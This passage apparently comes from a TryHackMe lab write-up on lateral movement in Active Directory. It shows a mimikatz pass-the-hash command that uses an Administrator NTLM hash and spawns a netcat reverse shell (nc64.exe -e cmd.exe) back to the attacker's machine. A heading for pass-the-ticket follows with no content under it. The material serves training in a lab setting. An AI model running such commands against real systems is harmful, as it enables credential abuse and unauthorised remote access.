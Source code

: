<figure><img src="../../.gitbook/assets/image (1) (15).png" alt=""><figcaption></figcaption></figure>

**Victim(mimikatz)**

```
token::revert
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /ntlm:0b2571be7e75e3dbd169ca5352a2dad7 /run:"c:\tools\nc64.exe -e cmd.exe $KALI 5555"
```

<figure><img src="../../.gitbook/assets/image (6) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (11) (1).png" alt=""><figcaption></figcaption></figure>

#### Option #2 - Pass-the-Ticket

**Victim(mimikatz)**
